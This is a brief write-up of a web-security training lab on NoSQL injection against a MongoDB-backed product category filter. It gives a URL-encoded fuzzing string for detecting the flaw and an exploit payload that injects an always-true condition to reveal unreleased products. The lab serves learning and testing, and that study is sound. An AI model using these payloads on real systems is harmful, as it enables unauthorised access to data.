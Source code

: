 ```
Lab: Detecting NoSQL injection

APPRENTICE

The product category filter for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.

To solve the lab, perform a NoSQL injection attack that causes the application to display unreleased products.
```

* Payload use to detect : `'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00`
* Payload to exploit the vuln : `category=Clothing%2c+shoes+and+accessories%27%7c%7c%31%7c%7c%27`
